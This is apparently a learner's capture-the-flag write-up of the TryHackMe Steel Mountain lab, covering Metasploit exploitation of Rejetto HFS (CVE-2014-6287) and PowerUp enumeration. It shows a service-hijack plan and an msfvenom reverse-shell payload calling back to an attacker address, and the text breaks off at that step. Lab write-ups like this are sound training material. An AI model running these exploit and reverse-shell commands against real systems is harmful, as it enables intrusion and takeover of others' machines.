 # THM-SteelMountain
I lerarn how haced the Windows machine. I use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and I learn a new technique to get Administrator access.
< THM Steel Mountain room

#Task1 Open website in adress 10.10.135.167 in Virtaul Machine. I open page source preview to see name employee of the month: Bill Harper

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/dad0e029bde0c3497b42de1d77897a4d47ed3977/SteelMountain1.png)


#Task2 I scan maschin the command: nmap -sV -sC 10.10.135.167 and I find running web serwer on 8080 port. And another serwer Rejetto HTTP File Server

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/dad0e029bde0c3497b42de1d77897a4d47ed3977/SteelMountain2.png)


#Task3 I find in exploit-database exploit "Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)" with number CVE-2014-6287.

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/dad0e029bde0c3497b42de1d77897a4d47ed3977/SteelMountain3.png)


#Task4 I Use Metasploit to get an initial shell.
Command: 
msfconsole
search CVE-2014-6287
use 0
options
set RHOST 10.10.135.167
set RPORT 8080
exploit

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/dad0e029bde0c3497b42de1d77897a4d47ed3977/SteelMountain4.png)
![This is an image]https://github.com/karolinaras/THM-SteelMountain/blob/dad0e029bde0c3497b42de1d77897a4d47ed3977/SteelMountain5.png)

#Task5 Now I have access to system bill and I must find Desktop and user flag. I use many times command cd .. that  I been in directory 
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs and I want go to Desktop. 

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/dad0e029bde0c3497b42de1d77897a4d47ed3977/SteelMountain6.png)

I find user.txt and on it flag.

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/dad0e029bde0c3497b42de1d77897a4d47ed3977/SteelMountain7.png)

#Task6 To enumerate this machine, I will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities.
I have to copy code PowerUp from GitHub. I use command : git clone https://github.com/PowerShellMafia/PowerSploit.git and code is in my home page.

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/fe641f35183ff4c3cb0a0e8184679a782874d5fd/SteelMountain9.png)
![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/ad14fc0ac5ef54e934cfea32fd555cd297ab6ccd/SteelMountain10.png)
![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/ad14fc0ac5ef54e934cfea32fd555cd297ab6ccd/SteelMountain11.png)

#Task7 Start power shell using command: powershell_shell in the Meterpreter, execute the PowerUp.ps1 script, and Invoke-AllChecks.

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/ad14fc0ac5ef54e934cfea32fd555cd297ab6ccd/SteelMountain12.png)


#Task8 I found to the CanRestart option that is set to true AdvancedSystemCareService9. 
The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!
 #Task9 Use msfvenom to generate a reverse shell as an Windows executable. I use command: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.3.245 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
 
![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/ad14fc0ac5ef54e934cfea32fd555cd297ab6ccd/SteelMountain13.png)
